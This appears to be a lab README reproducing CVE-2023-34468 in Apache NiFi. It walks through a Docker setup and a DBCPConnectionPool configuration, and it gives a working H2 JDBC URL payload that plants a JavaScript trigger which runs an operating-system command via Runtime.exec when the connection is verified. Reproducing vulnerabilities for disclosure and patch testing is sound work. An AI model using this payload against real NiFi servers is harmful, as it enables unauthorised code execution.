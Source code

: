 # Apache NiFi Code Injection with Database Services using H2 (CVE-2023-34468)

## Introduction

The DBCPConnectionPool and HikariCPConnectionPool Controller Services in Apache NiFi 0.0.2 through 1.21.0 allow an authenticated and authorized user to configure a Database URL with the H2 driver that enables custom code execution.

## Affected Version

Apache NiFi 0.0.2 - 1.21.0

## Setup && Poc

Run

```bash
docker-compose up
```

and access to `https://localhost:8443`, login with

```
user: root
password: ctsBtRBKHRAx69EqUghvvgEvjnaLjFEB
```

open `NiFi Settings` on the top right, click `MANAGEMENT CONTROLLER SERVICES`, add a new `DBCPConnectionPool` services,

![](images/SCR-20230619-prdq.png)

configure with

```
Database Connection URL: jdbc:h2:mem:db;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE SCHEMA IF NOT EXISTS db\;CREATE TABLE db.TEST(ID INT PRIMARY KEY, NAME VARCHAR(255))\;CREATE TRIGGER POC BEFORE SELECT ON db.TEST AS '//javascript
java.lang.Runtime.getRuntime().exec("touch /tmp/trganda")'
Database Driver Class Name: org.h2.Driver
Database Driver Location(s): file:///opt/nifi/nifi-toolkit-current/lib/h2-2.1.214.jar
```
after that, click `Apply` to save.

Open the setting of the created `DBCPConnectionPool` services again, click `Verify` to trigger the `getConnection`, and leading command execution.

![](images/SCR-20230619-psmu.png)

The `/tmp/trganda` will be create.

![](images/SCR-20230619-qron.png)

![](images/SCR-20230619-qszp.png)

## References

1. https://nifi.apache.org/security.html#CVE-2023-34468


